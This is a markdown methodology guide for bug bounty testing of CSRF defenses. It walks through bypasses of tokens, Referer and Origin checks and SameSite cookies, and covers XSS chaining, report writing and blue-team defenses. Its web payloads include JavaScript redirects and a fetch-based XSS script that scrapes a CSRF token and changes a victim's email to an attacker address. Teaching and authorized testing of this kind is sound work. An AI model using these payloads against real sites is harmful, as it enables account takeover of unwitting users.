

# CSRF Token Bypass Techniques

## When to Use
- When testing web applications that perform state-changing actions (password changes, email updates, transfers)
- When evaluating the robustness of anti-CSRF tokens and defenses
- During bug bounty hunting to chain vulnerabilities (e.g., Clickjacking to CSRF, Self-XSS to stored XSS via CSRF)
- When reviewing API implementations handling cookie-based sessions without proper headers


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Identification & Baseline Testing

```
# 1. Identify state-changing requests
# Look for POST/PUT/DELETE requests that modify data (e.g., Update Profile)
# Ensure the session relies on Cookies (if it strictly uses Authorization: Bearer tokens in headers, it's generally not vulnerable to pure CSRF)

# 2. Test for anti-CSRF presence
# Generate a CSRF PoC using Burp Suite (Right-click request -> Engagement tools -> Generate CSRF PoC)
# Save as HTML, open in a different browser authenticated as the victim.
# If it works immediately, there is no CSRF protection.

# 3. Analyze the token
# Does the application use a hidden field, a custom header (X-CSRF-Token), or dual-submit cookies?
```

### Phase 2: Token Validation Bypasses

```
# If the token is present and blocking the request, test these common implementation flaws using Burp Repeater:

# Bypass 1: Remove the token entirely
# Delete the CSRF token parameter/header from the request.
# Flaw: The backend often only validates the token IF it is present.

# Bypass 2: Change the request method
# Change POST to GET (Right-click -> Change request method).
# Flaw: The framework might enforce CSRF protection only on POST requests, but the endpoint might accept GET parameters.

# Bypass 3: Modify the token length/format
# Delete one character from the token or submit a blank value (csrf="").
# Submit an invalid token of the same length to ensure validation is actually occurring.

# Bypass 4: Token tying to user session
# Log in as Attacker, grab Attacker's valid CSRF token.
# Log in as Victim, use Attacker's token in Victim's request.
# Flaw: The token pool is global and not tied to the specific user's session cookie.

# Bypass 5: Double Submit Cookie Flaws
# If the app uses Double Submit (Token in Cookie == Token in Body)
# Can you set a cookie on the target domain (via sub-domain takeover, HTTP header injection, or XSS)?
# If yes, inject your own known token into the victim's cookie, and use that same token in the CSRF form.
```

### Phase 3: Referer and Origin Header Bypasses

```
# If tokens aren't used, the app might rely on the Referer or Origin headers.

# Bypass 1: Remove the Referer header entirely
# Many apps check the Referer but allow the request if the header is absent (for privacy reasons).
<meta name="referrer" content="no-referrer">

# Bypass 2: Referer pattern matching weakness
# If the app expects: Referer: https://target.com
# Try registering: target.com.attacker.com
# Try creating a folder: attacker.com/target.com
# Try adding parameters: attacker.com/?url=target.com

# Bypass 3: Origin header bypass
# Change Origin to null.
<iframe src="data:text/html,...csrf_form_here..."></iframe> # Causes Origin: null
```

### Phase 4: Bypassing SameSite Cookie Attributes

```
# SameSite dictates when cookies are sent in cross-site requests.
# Strict: Never sent. Lax (modern default): Sent on top-level navigations (GET). None: Always sent (must be Secure).

# Bypass 1: SameSite=Lax (GET Requests)
# If you found a GET-based CSRF (Phase 2, Bypass 2), Lax will not stop it if it's a top-level navigation.
<script>document.location="https://target.com/update_email?email=hacker@evil.com";</script>

# Bypass 2: SameSite=Lax (Method Override)
# If the framework accepts method overrides, use a GET request to bypass Lax, but tell the framework it's a POST.
<script>document.location="https://target.com/api/update?email=evil@evil.com&_method=POST";</script>

# Bypass 3: Cookie Refresh / Expiration
# Sometimes SameSite=Lax cookies are given a "grace period" of 2 minutes immediately after login (Chrome specific behavior in the past, highly context dependent).
```

### Phase 5: Chaining with XSS (The Ultimate Bypass)

```javascript
# If you find XSS anywhere on the domain or a trusted sub-domain, CSRF tokens offer NO protection.
# You can use XMLHTTPRequest/Fetch to dynamically read the token and make the request.

// Example XSS payload to bypass CSRF and change email:
fetch('/profile') // 1. Fetch the page containing the token
.then(response => response.text())
.then(text => {
    // 2. Extract the token using regex
    let token = text.match(/name="csrf_token" value="(.*?)"/)[1];
    
    // 3. Make the forged request
    fetch('/update_email', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: `email=hacker@evil.com&csrf_token=${token}`
    });
});
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Enforcement**: Validate CSRF tokens strictly. Reject requests where the token is absent, empty, or fails cryptographic validation.
- **Session Tying**: Cryptographically tie the CSRF token to the user's secure session identifier.
- **Defense in Depth**: Use `SameSite=Strict` or `Lax` on all session cookies.
- **Custom Headers**: For APIs, require a custom header (e.g., `X-Requested-With`) and rely on CORS policies rather than tokens.
- **Re-authentication**: Require user password input for highly sensitive actions (password change, fund transfer).

## Key Concepts
| Concept | Description |
|---------|-------------|
| CSRF | Forcing an authenticated user to execute unwanted actions on a web application |
| Anti-CSRF Token | A unique, unpredictable, session-specific string generated by the server to validate state-changing requests |
| SameSite Attribute | A cookie attribute instructing the browser whether to send cookies with cross-site requests |
| Double Submit | A defense pattern where a random value is sent both in a cookie and a request parameter |
| Clickjacking | Tricking a user into clicking a button on a hidden iframe (often an alternative when CSRF fails) |

## Output Format
```
Vulnerability Report
=====================
Title: Cross-Site Request Forgery (CSRF) on Email Update Endpoint via Token Omission
Severity: HIGH
Endpoint: POST /api/user/settings/email

Description:
The application implements an anti-CSRF token on the profile update form. However, the backend validation logic only checks the token if the `_csrf` parameter is present in the POST body. By completely removing the parameter, the server processes the request successfully.

Reproduction Steps:
1. Log in to victim account.
2. Open the malicious HTML file containing an auto-submitting form targeting `/api/user/settings/email` without the `_csrf` field.
3. Observe that the user's email is successfully changed to the attacker's without user interaction or knowledge.

Impact:
An attacker can perform full account takeover by changing the victim's email address and initiating a password reset.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (CSRF)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Multiple HackerOne programs** | $500-$5,000 | (Various) | CSRF on password/email change → Account Takeover | 2023-2025 |

**Key Lesson**: CSRF on login forms is out of scope everywhere. CSRF on password/email change 
is High. CSRF on admin actions (create user, change roles) is Critical.

**Bypass techniques that work in the real world:**
1. Change POST to GET — many frameworks only check CSRF on POST
2. Remove the CSRF token entirely — does the server even validate?
3. Use expired/old CSRF token — many apps don't rotate properly
4. Change `Content-Type: application/json` to `text/plain` — bypasses SameSite in some cases
5. Flash-based CSRF (legacy) — still works on some older apps

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- OWASP: [Cross-Site Request Forgery (CSRF) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- PortSwigger: [Bypassing CSRF Token validation](https://portswigger.net/web-security/csrf/bypassing-token-validation)
